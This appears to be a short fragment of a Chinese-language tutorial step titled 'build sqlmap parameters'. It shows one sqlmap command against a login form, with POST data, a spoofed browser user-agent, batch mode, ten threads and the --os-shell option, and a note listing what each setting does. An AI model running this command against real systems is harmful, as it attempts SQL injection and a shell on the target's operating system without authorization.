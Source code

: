 ![](assets/V31fPN.png)

#### 1.构建sqlmap参数

```
sqlmap -u "{url}" --method POST --data "userName=qq12580bvb&password=a"  --user-agent  " Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36" --batch  --threads 10 --os-shell

----PS----
上面脚本配置了一下内容
url、请求方式、请求数据、浏览器头、自动确认、线程、os-shell
----------

```
